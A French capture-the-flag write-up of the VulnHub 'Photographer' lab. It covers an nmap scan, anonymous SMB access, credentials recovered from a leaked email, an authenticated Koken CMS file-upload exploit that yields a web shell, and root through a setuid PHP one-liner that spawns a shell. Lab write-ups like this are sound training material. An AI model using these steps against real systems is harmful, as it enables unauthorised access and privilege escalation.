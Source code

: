 ```yaml
---
title: "Solution du CTF Photographer de VulnHub"
tags: [CTF, VulnHub]
---
```


[Photographer](https://vulnhub.com/entry/photographer-1,519/) est un boot2root créé par [v1n1v131r4](https://twitter.com/@v1n1v131r4) et téléchargeable sur VulnHub.

```
Nmap scan report for 192.168.242.128
Host is up (0.00053s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Photographer by v1n1v131r4
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8000/tcp open  http        Apache httpd 2.4.18
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-generator: Koken 0.22.24
|_http-title: daisa ahomi
MAC Address: 00:0C:29:27:57:E7 (VMware)
Service Info: Hosts: PHOTOGRAPHER, example.com

Host script results:
|_clock-skew: mean: 2h39m59s, deviation: 2h53m12s, median: 59m59s
|_nbstat: NetBIOS name: PHOTOGRAPHER, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb2-time: 
|   date: 2022-11-19T21:53:38
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: photographer
|   NetBIOS computer name: PHOTOGRAPHER\x00
|   Domain name: \x00
|   FQDN: photographer
|_  System time: 2022-11-19T16:53:37-05:00
```

## Talkie Talkie

On peut récupérer quelques partages via smbclient :

```bash
$ smbclient -U "" -N -L //192.168.242.128

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        sambashare      Disk      Samba on Ubuntu
        IPC$            IPC       IPC Service (photographer server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```

Il y a deux fichiers que l'on peut récupérer :

```bash
smbclient -U "" -N //192.168.242.128/sambashare
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Jul 21 03:30:07 2020
  ..                                  D        0  Tue Jul 21 11:44:25 2020
  mailsent.txt                        N      503  Tue Jul 21 03:29:40 2020
  wordpress.bkp.zip                   N 13930308  Tue Jul 21 03:22:23 2020

                278627392 blocks of size 1024. 264268400 blocks available
```

Le premier est un mail d'un certain `Agi` pour `Daisa` :

```
Message-ID: <4129F3CA.2020509@dc.edu>
Date: Mon, 20 Jul 2020 11:40:36 -0400
From: Agi Clarence <agi@photographer.com>
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.0.1) Gecko/20020823 Netscape/7.0
X-Accept-Language: en-us, en
MIME-Version: 1.0
To: Daisa Ahomi <daisa@photographer.com>
Subject: To Do - Daisa Website's
Content-Type: text/plain; charset=us-ascii; format=flowed
Content-Transfer-Encoding: 7bit

Hi Daisa!
Your site is ready now.
Don't forget your secret, my babygirl ;)
```

Le second est une archive de Wordpress mais il n'y a pas le `wp-config.php` dedans.

## Patting myself on the back

Sur le port 8000 je trouve le CMS *Koken*, une appli web déjà croisée sur [le CTF The Office: Doomsday Device de VulnHub]({% link _posts/2022-01-27-Solution-du-CTF-The-Office-Doomsday-Device-de-VulnHub.md %}#kitty-cat). Il semble s'agir du site de Daisa Ahomi.

Le site fait mention d'un fichier *shell.php* qui a du être uploadé comme si c'était une image. L'URL du fichier est facile à obtenir mais la page retourne le message suivant :

> WARNING: Failed to daemonise. This is quite common and not fatal. Network is unreachable (101)

Après recherche le fichier utilisé semble être [pentestmonkey/php-reverse-shell · GitHub](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Ce script se base sur une adresse IP et un port hardcodé donc on ne peut rien faire avec.

Juste à l'intuition je trouve que l'interface admin du Koken est à l'adresse `/admin` et qu'on peut se connecter avec les identifiants `daisa@photographer.com` / `babygirl`.

Petite auto-tape dans le dos puisque sur le précédent CTF j'avais codé un exploit pour la faille d'upload arbitraire sur le *Koken* du coup ici je n'ai qu'à exécuter :

```bash
$ python3 koken_exploit.py http://192.168.242.128:8000/ daisa@photographer.com babygirl
Koken CMS 0.22.24 - Arbitrary File Upload (Authenticated)
-- devloop.users.sf.net 2022 --
Successfully authenticated as daisa ahomi
Enjoy your shell at http://192.168.242.128:8000//storage/originals/f6/70/eubfyyiektheoqhlbobx.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Je rappatrie un reverse-ssh sur la VM. Le firewall semble filtrer des ports sortants mais ça fonctionne avec le port 80 (et sinon, les ports entrants de la VM ne sont pas filtrés).

Dans le dossier personnel de `daisa` se trouve le premier flag :

```bash
www-data@photographer:/home/daisa$ cat user.txt 
d41d8cd98f00b204e9800998ecf8427e
```

L'exécutable php est setuid root sur le système :

`-rwsr-xr-x 1 root root 4883680 Jul  9  2020 /usr/bin/php7.2`

L'exécutable donne bien l'effective UID 0 du moment qu'on reste dans PHP :

```bash
$ php -r "print(posix_getuid(). ' '. posix_geteuid());"
33 0
```

Si on exécute autre chose, c'est droppé :

```bash
$ php -r "system('id');"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Pour ça il faut explicitement écraser l'UID et le GID :

```bash
$ php -r "posix_setuid(0); posix_setgid(0); system('dash -i');"
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# cd /root
# ls
proof.txt
# cat proof.txt
                                                                   
                                .:/://::::///:-`                                
                            -/++:+`:--:o:  oo.-/+/:`                            
                         -++-.`o++s-y:/s: `sh:hy`:-/+:`                         
                       :o:``oyo/o`. `      ```/-so:+--+/`                       
                     -o:-`yh//.                 `./ys/-.o/                      
                    ++.-ys/:/y-                  /s-:/+/:/o`                    
                   o/ :yo-:hNN                   .MNs./+o--s`                   
                  ++ soh-/mMMN--.`            `.-/MMMd-o:+ -s                   
                 .y  /++:NMMMy-.``            ``-:hMMMmoss: +/                  
                 s-     hMMMN` shyo+:.    -/+syd+ :MMMMo     h                  
                 h     `MMMMMy./MMMMMd:  +mMMMMN--dMMMMd     s.                 
                 y     `MMMMMMd`/hdh+..+/.-ohdy--mMMMMMm     +-                 
                 h      dMMMMd:````  `mmNh   ```./NMMMMs     o.                 
                 y.     /MMMMNmmmmd/ `s-:o  sdmmmmMMMMN.     h`                 
                 :o      sMMMMMMMMs.        -hMMMMMMMM/     :o                  
                  s:     `sMMMMMMMo - . `. . hMMMMMMN+     `y`                  
                  `s-      +mMMMMMNhd+h/+h+dhMMMMMMd:     `s-                   
                   `s:    --.sNMMMMMMMMMMMMMMMMMMmo/.    -s.                    
                     /o.`ohd:`.odNMMMMMMMMMMMMNh+.:os/ `/o`                     
                      .++-`+y+/:`/ssdmmNNmNds+-/o-hh:-/o-                       
                        ./+:`:yh:dso/.+-++++ss+h++.:++-                         
                           -/+/-:-/y+/d:yh-o:+--/+/:`                           
                              `-///////////////:`                               
                                                                                

Follow me at: http://v1n1v131r4.com


d41d8cd98f00b204e9800998ecf8427e
```

*Publié le 19 novembre 2022*
